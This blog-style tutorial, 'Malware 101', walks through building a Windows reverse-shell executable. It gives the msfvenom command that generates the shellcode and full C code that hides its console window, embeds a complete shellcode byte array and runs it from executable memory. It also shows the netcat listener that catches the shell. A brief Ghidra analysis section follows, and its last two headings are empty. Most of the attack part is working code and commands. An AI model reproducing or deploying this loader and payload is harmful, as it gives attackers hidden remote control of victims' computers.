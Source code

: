 ```yaml
---
layout: post
title:  "Malware 101: Develop and Analyze our own malware"
image: ''
date:   2021-09-20 00:00:00
tags: [Malware Analysis,Malware Development]
description: 'Describe here'
categories: [Blog]
---
```


In this post, we'll learn together how to write a basic malware program that does a reverse shell connection (using shellcode) and analyze our own compiled malware. We'll play around with C code using Visual Studio IDE and MSVenom for the creation of the shellcode.

# Malware development
## Create a new project in Visual Studio
We'll start with creating a new project. Choose the "Console App". Make sure you choose C++.

![image](https://user-images.githubusercontent.com/56353946/134101602-d20f27df-8714-4e1f-b3c9-ee7e0b549ef6.png)

Name your new project. I'm gonna use "revshell_exe".

![image](https://user-images.githubusercontent.com/56353946/134101656-1e5e23a5-218e-47e2-8a66-046496247a28.png)

Now, let's go to our Kali and fire up `msvenom` to generate our Windows reverse shell's shellcode to embed in our malware executable.

## Generate reverse shell's shellcode using MSVenom
Before we generate a "shellcode". Some of the beginner might have no idea what does shellcode means. So, "Shellcode" is a set of instructions that executes a command in software to take control of or exploit a compromised machine. In our case here, our shellcode is to gain the remote system shell of our victim. 
The shellcode not only for shell access, instead there's many other shellcode action that could be done by the author like privilege escalation and many more.\

To generate the shellcode using msvenom, run this command below:
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f c
```
Example:
![image](https://user-images.githubusercontent.com/56353946/134104090-9e583dc7-1a98-448a-b3b2-cade2e54b17a.png)

All we need now is to copy the shellcode I highlighted in the red box and paste into our `main` function inside VS IDE.

## Coding
When it comes to programming, you need to familiar with C and WinAPI. Below codes I've put some comments to guide and understand what does the code do.

```
#include <Windows.h>

int main()
{
    // Run our executable console app in the background
    ShowWindow(FindWindowA("ConsoleWindowClass", NULL), false);
    
    // MSVenom shellcode payload here
    unsigned char buf[] =
        "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
        "\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
        "\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
        "\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
        "\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
        "\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
        "\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
        "\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
        "\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
        "\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
        "\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
        "\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
        "\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\xc0\xa8\x00\x80\x68"
        "\x02\x00\x11\x5c\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
        "\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2"
        "\x56\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
        "\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44"
        "\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56"
        "\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff"
        "\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6"
        "\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
        "\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5";

    //Allocate memory for the shellcode
    PVOID shellcode = VirtualAlloc(0, sizeof buf, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

    //Copies contents of memory block to destination
    RtlCopyMemory(shellcode, buf, sizeof buf);

    //Execute shellcode as new thread
    DWORD threadID;
    HANDLE handleThread = CreateThread(NULL, 0, (PTHREAD_START_ROUTINE)shellcode, NULL, 0, &threadID);

    //Wait till thread terminates
    WaitForSingleObject(handleThread, INFINITE);
}
```

If you don't understand the WinAPI, here some documentation from Microsoft:

0. ShowWindow = https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-showwindow
1. VirtualAlloc = https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc
2. RtlCopyMemory = https://docs.microsoft.com/en-us/windows-hardware/drivers/ddi/wdm/nf-wdm-rtlcopymemory
3. CreateThread = https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread
4. WaitForSingleObject = https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject

## Test out our malware
Check for any errors in your code and now we good to go.

In our Kali, let's listen to our reverse shell. In my case, my port will be 4444.
```
┌──(kali㉿kali)-[~/Downloads]
└─$ nc -lvp 4444                                                             
listening on [any] 4444 ...
```

In "Solution Configurations", change `Debug` to `Release`. Then, click Run icon.

![image](https://user-images.githubusercontent.com/56353946/134106107-ea72aebb-989b-411e-8bc8-1615343f21c1.png)

After the program executed, our Kali will gain the remote shell cmd.

![image](https://user-images.githubusercontent.com/56353946/134106322-be7021e7-b46e-4827-a00b-a4aa78dfd062.png)

Our shellcode and malware successfully execute.

# Malware analysis and reversing
Now copy your malicious executable from Release folder into your malware analysis lab and start analysing + reversing the program.

## Ghidra analysis
The result of decompiler of Ghidra have a slightly changes from our code. This is due to the how compiler compiled our executable and how the Ghidra translate from the assembly code.

Here the explaination of the decompiled code:
![image](https://user-images.githubusercontent.com/56353946/134110659-9ddd86a9-b7c4-41b4-b290-38cd6128b325.png)

## Extract shellcode

## Shellcode analysis
